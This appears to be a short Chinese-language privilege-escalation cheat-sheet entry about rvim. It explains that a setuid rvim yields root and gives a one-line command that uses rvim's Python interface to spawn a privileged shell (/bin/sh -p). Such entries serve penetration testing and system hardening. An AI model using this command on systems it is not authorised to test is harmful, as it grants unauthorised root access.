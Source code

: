  #rvim

`rvim` 若具有 `s` 权限，可使用如下命令直接提权至 root 权限：

```
rvim -c ':py import os;os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```